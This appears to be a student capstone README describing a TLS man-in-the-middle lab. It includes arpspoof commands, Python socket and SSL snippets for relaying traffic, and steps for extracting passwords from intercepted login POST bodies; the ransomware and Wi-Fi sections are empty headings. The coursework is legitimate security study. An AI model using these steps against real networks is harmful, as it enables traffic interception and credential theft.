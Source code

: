 # Computer Security Capstone Project

---

## 📌 Table of Contents

- [1. Project 1 - TLS Connection Hijacking](#project-1---tls-connection-hijacking)
- [2. Project 2 - MITM and Pharming Attacks in Wi-Fi Networks](#project-2---mitm-and-pharming-attacks-in-wi-fi-networks)
- [3. Project 3 - Ransomware Propagation and Payload](#project-3---ransomware-propagation-and-payload)
- [4. 測試與觀察結果](#4-測試與觀察結果)

---

## Project 1 - TLS Connection Hijacking

### GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker. 
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```

---

### Project 2 - MITM and Pharming Attacks in Wi-Fi Networks

---

### Project 3 - Ransomware Propagation and Payload
